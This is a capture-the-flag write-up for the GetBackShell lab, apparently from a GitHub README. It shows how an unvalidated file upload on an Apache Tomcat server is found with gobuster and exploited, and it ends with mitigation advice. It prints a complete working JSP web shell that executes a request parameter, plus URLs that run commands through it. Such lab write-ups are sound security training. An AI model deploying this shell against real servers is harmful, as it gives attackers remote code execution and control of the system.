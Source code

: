 # Arbitrary File Upload - GetBackShell Lab

## Overview

**Arbitrary File Upload** is a critical vulnerability that arises when a web application fails to properly validate uploaded files. This allows an attacker to upload malicious files (such as web shells), potentially resulting in **Remote Code Execution (RCE)**, data compromise, or full system takeover.

This lab demonstrates how improper validation in a file upload feature can be exploited to gain unauthorized access to the server.

---

## Objectives

- Discover and analyze the file upload functionality.
- Identify accepted file types and upload behavior.
- Craft and upload a malicious JSP web shell.
- Achieve RCE and retrieve the flag from the server.

---

## Lab Details

- **Lab:** [GetBackShell](https://defhawk.com/battleground/practice-lab/all-categories/web/getbackshell)
- **Target URL:** `http://ai.ctf.defhawk.com:8080/`
- **Stack:** Apache Tomcat 9.0.106 (Java-based)

![Landing Screenshot](https://raw.githubusercontent.com/ak-115/Getbackshell/refs/heads/main/Screenshot%20From%202025-07-13%2003-12-15.png)

---

## 1. Reconnaissance

Since the server uses **Apache Tomcat**, it likely accepts **JSP (Java Server Pages)** files.

Start by performing directory brute-force scanning using `gobuster`:

```bash
gobuster dir -u http://ai.ctf.defhawk.com:8080 -w /usr/share/dirb/wordlists/common.txt
```

![Gobuster Initial](https://github.com/ak-115/Getbackshell/blob/main/Screenshot%20From%202025-07-13%2013-41-26.png?raw=true)

- Found endpoint: `/app`

Exploring `http://ai.ctf.defhawk.com:8080/app` didn't reveal much, so we enumerate further:

```bash
gobuster dir -u http://ai.ctf.defhawk.com:8080/app -w /usr/share/dirb/wordlists/common.txt
```

![Gobuster App](https://github.com/ak-115/Getbackshell/blob/main/Screenshot%20From%202025-07-13%2013-48-52.png?raw=true)

- Discovered: `/app/images`, `/app/uploads`
- Still no visible upload functionality.

### Upload Endpoint Found

After further fuzzing, located the endpoint:

```
/app/upload.jsp
```

![Upload JSP](https://github.com/ak-115/Getbackshell/blob/main/Screenshot%20From%202025-07-13%2013-56-47.png?raw=true)

---

## 2. Exploitation

The upload form presents three file input parameters.

Test by uploading a simple JSP-based web shell like:

```jsp
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    if (cmd != null) {
        Process p = Runtime.getRuntime().exec(cmd);
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        int c;
        while ((c = in.read()) != -1) {
            out.print((char)c);
        }
        in.close();
    }
%>
```

Upload the file. The server does not restrict file type or validate content:

![Upload Success](https://github.com/ak-115/Getbackshell/blob/main/Screenshot%20From%202025-07-13%2014-03-31.png?raw=true)

Access the shell through:

```
http://ai.ctf.defhawk.com:8080/app/uploads/shell.jsp?cmd=pwd
```

![Shell pwd](https://github.com/ak-115/Getbackshell/blob/main/Screenshot%20From%202025-07-13%2014-06-30.png?raw=true)

You now have remote code execution on the server.

---

## 3. Capture the Flag

Run commands via the web shell to navigate and read the flag:

### List directory contents:

```
http://ai.ctf.defhawk.com:8080/app/uploads/shell.jsp?cmd=ls
```

![List](https://github.com/ak-115/Getbackshell/blob/main/Screenshot%20From%202025-07-13%2014-13-07.png?raw=true)

### Read the flag:

```
http://ai.ctf.defhawk.com:8080/app/uploads/shell.jsp?cmd=cat flag.txt
```

![Flag](https://github.com/ak-115/Getbackshell/blob/main/Screenshot%20From%202025-07-13%2014-14-06.png?raw=true)

Flag retrieved successfully.

---

## Mitigation Strategies

To prevent arbitrary file upload vulnerabilities:

- Whitelist allowed file extensions.
- Validate MIME types and file signatures (magic bytes).
- Rename files server-side using random UUIDs.
- Store uploaded files outside the web root if not meant for execution.
- Disable script execution in upload directories.
- Implement size and content filters.

---

## Summary

This lab showcased a classic Arbitrary File Upload vulnerability on an Apache Tomcat server. Through directory fuzzing and a JSP web shell upload, we gained remote code execution and retrieved the flag.

Always validate, sanitize, and control file upload mechanisms to secure your web application.
